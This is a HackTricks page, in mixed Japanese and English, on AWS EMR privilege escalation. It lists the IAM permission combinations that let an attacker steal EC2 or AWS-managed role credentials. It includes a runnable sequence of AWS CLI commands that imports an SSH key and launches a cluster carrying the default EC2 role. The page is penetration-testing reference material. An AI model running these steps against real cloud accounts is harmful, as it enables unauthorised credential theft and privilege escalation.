 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

More **info about EMR** in:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

これらの権限を持つ攻撃者は、**EC2ロールをアタッチして新しいEMRクラスターを実行**し、その資格情報を盗もうとすることができます。\
これを行うには、**アカウントにインポートされたsshプライベートキーを知っているか、インポートする必要があり**、**マスターノードのポート22を開くことができる必要があります**（`--ec2-attributes`内の`EmrManagedMasterSecurityGroup`および/または`ServiceAccessSecurityGroup`の属性を使用してこれを行うことができるかもしれません）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note how an **EMR role** is specified in `--service-role` and a **ec2 role** is specified in `--ec2-attributes` inside `InstanceProfile`. However, this technique only allows to steal the EC2 role credentials (as you will connect via ssh) but no the EMR IAM Role.

**Potential Impact:** EC2サービスロールへの権限昇格。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

With these permissions an attacker can go to the **AWSコンソール**、ノートブックを作成し、それにアクセスしてIAMロールを盗むことができます。

{% hint style="danger" %}
ノートブックインスタンスにIAMロールをアタッチしても、私のテストではAWS管理の資格情報を盗むことができ、関連するIAMロールに関連する資格情報は盗めないことに気付きました。
{% endhint %}

**Potential Impact:** AWS管理ロールへの権限昇格 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

この権限だけで、攻撃者は**Jupyter Notebookにアクセスし、それに関連するIAMロールを盗む**ことができます。\
ノートブックのURLは `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/` です。

{% hint style="danger" %}
ノートブックインスタンスにIAMロールをアタッチしても、私のテストではAWS管理の資格情報を盗むことができ、関連するIAMロールに関連する資格情報は盗めないことに気付きました。`
{% endhint %}

**Potential Impact:** AWS管理ロールへの権限昇格 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
